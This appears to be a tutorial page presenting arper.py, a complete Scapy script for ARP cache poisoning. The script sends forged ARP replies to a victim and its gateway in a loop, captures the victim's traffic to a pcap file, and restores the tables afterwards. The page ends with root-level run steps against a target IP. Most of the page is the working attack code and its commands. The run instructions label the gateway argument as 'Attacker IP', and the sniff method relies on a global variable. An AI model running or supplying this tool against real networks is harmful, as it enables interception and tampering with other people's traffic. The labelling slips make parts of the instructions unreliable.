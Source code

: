 # **ARP Cache Poisoning with Scapy**

ARP cache poisoning is an attack where an attacker sends forged ARP messages to the victim's computer, tricking it into thinking that the attacker's computer is the gateway. This allows the attacker to intercept and manipulate network traffic between the two hosts. Scapy can be used to perform ARP cache poisoning attacks by sending forged ARP messages to the victim's computer.

### `arper.py`

```python
from multiprocessing import Process
from scapy.all import (ARP, Ether, conf, get_if_hwaddr,
send, sniff, sndrcv, srp, wrpcap)
import os
import sys
import time

""""
helper function to get the MAC address for any given machine
"""
# pass in the target IP address and create a packet
def get_mac(targetip):

    # Ether -> specifies -> packet is to be boradcast
    # ARP -> specifies -> the request for the MAC address
    packet = Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(op="who-has", pdst=targetip)

    # send the packet with the Scapy function srp
    resp, _ = srp(packet, timeout=2, retry=10, verbose=False)

    for _, r in resp:
        return r[Ether].src
    return None

class Arper:

    """
    initialize the class with the victim and gateway IPs and specify the interface to use
    """
    def __init__(self, victim, gateway, interface='en0'):
        self.victim = victim
        self.victimmac = get_mac(victim)
        self.gateway = gateway
        self.gatewaymac = get_mac(gateway)
        self.interface = interface
        conf.iface = interface
        conf.verb = 0
        print(f'Initialized {interface}:')
        print(f'Gateway ({gateway}) is at {self.gatewaymac}.')
        print(f'Victim ({victim}) is at {self.victimmac}.')
        print('-'*30)

    """"
    The run method performs the main work of the Arper object
    """
    def run(self):
        # poison the ARP cache
        self.poison_thread = Process(target=self.poison)
        self.poison_thread.start()

        # watch the attack in progress by sniffing the network traffic
        self.sniff_thread = Process(target=self.sniff)
        self.sniff_thread.start()

    """"
    The poison method creates the poisoned packets and sends them to the victim and the gateway
    """
    def poison(self):
        
        # creating a poisoned ARP packet intended for the victim
        poison_victim = ARP()
        poison_victim.op = 2
        poison_victim.psrc = self.gateway
        poison_victim.pdst = self.victim
        poison_victim.hwdst = self.victimmac
        print(f'ip src: {poison_victim.psrc}')
        print(f'ip dst: {poison_victim.pdst}')
        print(f'mac dst: {poison_victim.hwdst}')
        print(f'mac src: {poison_victim.hwsrc}')
        print(poison_victim.summary())
        print('-'*30)

        # create a poisoned ARP packet for the gateway
        poison_gateway = ARP()
        poison_gateway.op = 2
        poison_gateway.psrc = self.victim
        poison_gateway.pdst = self.gateway
        poison_gateway.hwdst = self.gatewaymac
        print(f'ip src: {poison_gateway.psrc}')
        print(f'ip dst: {poison_gateway.pdst}')
        print(f'mac dst: {poison_gateway.hwdst}')
        print(f'mac_src: {poison_gateway.hwsrc}')
        print(poison_gateway.summary())
        print('-'*30)
        print(f'Beginning the ARP poison. [CTRL-C to stop]')

        """
        start sending the poisoned packets to their destinations in an infinite loop to make sure that the respective ARP cache entries remain poisoned for the duration of the attack
        """
        while True:
            sys.stdout.write('.')
            sys.stdout.flush()
            try:
                send(poison_victim)
                send(poison_gateway)
            
            # The loop will continue until you press CTRL-C (KeyboardInterrupt)
            except KeyboardInterrupt:
                self.restore()
                sys.exit()
            else:
                time.sleep(2)

    """"
    In order to see and record the attack as it happens, we sniff the network traffic with the sniff method
    """
    def sniff(self, count=200):
        # sniff method sleeps for n seconds
        time.sleep(5)
        print(f'Sniffing {count} packets')

        # filtering for packets that have the victim’s IP
        bpf_filter = "ip host %s" % victim

        # sniffs for a number of packets
        packets = sniff(count=count, filter=bpf_filter, iface=self.interface)

        # Once we’ve captured the packets, we write them to a file called "arper.pcap"
        wrpcap('arper.pcap', packets)
        print('Got the packets')

        # restore the ARP tables to their original values; terminate the poisoning thread
        self.restore()
        self.poison_thread.terminate()
        print('Finished.')

    """"
    the restore method puts the victim and gateway machines back to their original state by sending correct ARP information to each machine:
    """
    def restore(self):
        print('Restoring ARP tables...')
        
        # sends the original values for the gateway IP and MAC addresses to the victim
        send(ARP(
        op=2,
        psrc=self.gateway,
        hwsrc=self.gatewaymac,
        pdst=self.victim,
        hwdst='ff:ff:ff:ff:ff:ff'),
        count=5)

        # sends the original values for the victim’s IP and MAC to the gateway
        send(ARP(
            op=2,
            psrc=self.victim,
            hwsrc=self.victimmac,
            pdst=self.gateway,
            hwdst='ff:ff:ff:ff:ff:ff'),
            count=5)      

if __name__ == '__main__':
    (victim, gateway, interface) = (sys.argv[1], sys.argv[2], sys.argv[3])
    myarp = Arper(victim, gateway, interface)
    myarp.run()
```

1. The code defines a class called `Arper`.
2. The `Arper` class is initialized with the IP addresses of the victim and the gateway, as well as the network interface to use.
3. The `run()` method of the `Arper` class is called to start the ARP cache poisoning attack.
4. The `poison()` method of the `Arper` class is called to create two ARP packets, one for the victim and one for the gateway, and send them to their respective targets.
5. The `sniff()` method of the `Arper` class is used to capture network traffic that flows between the victim and the gateway.
6. The packets that are captured by the `sniff()` method are saved to a file called "arper.pcap".
7. The `restore()` method of the `Arper` class is called to put the victim and gateway computers back to their original state by sending correct ARP information to each machine.
8. To use this code, the user must provide the IP addresses of the victim and the gateway, as well as the network interface to use, as command-line arguments.

The ARP cache poisoning attack works as follows:

1. The attacker sends forged ARP messages to the victim's computer, tricking it into thinking that the attacker's computer is the gateway.
2. This allows the attacker to intercept and manipulate network traffic between the victim and the gateway.
3. The `poison()` method creates two ARP packets with fake information that causes the victim's computer to think that the attacker's computer is the gateway, and the gateway's computer to think that the attacker's computer is the victim.
4. After the ARP cache is poisoned, the `sniff()` method captures network traffic that flows between the victim and the gateway.
5. The captured packets are saved to a file called `"arper.pcap"`.
6. The `restore()` method puts the victim and gateway computers back to their original state by sending correct ARP information to each machine.

Overall, this code demonstrates how Scapy can be used to perform an ARP cache poisoning attack and capture network traffic.

### How to run the code:

1. run the following command on your attacher machine (Kali VM) with root permission:
    
    ```bash
    #:> echo 1 > /proc/sys/net/ipv4/ip_forward
    ```
    
    In apple machine:
    
    ```bash
    #:> sudo sysctl -w net.inet.ip.forwarding=1
    ```
    
2. execute the python script with root terminal:
    
    ```bash
    #:> python arper.py <Target IP> <Attacker IP> <Attacker internet interface>
    
    E.G: #:> python arper.py 192.168.1.193 192.168.1.254 en0
    ```
    
3. Use CTRL-C to terminate poisoning when you are done.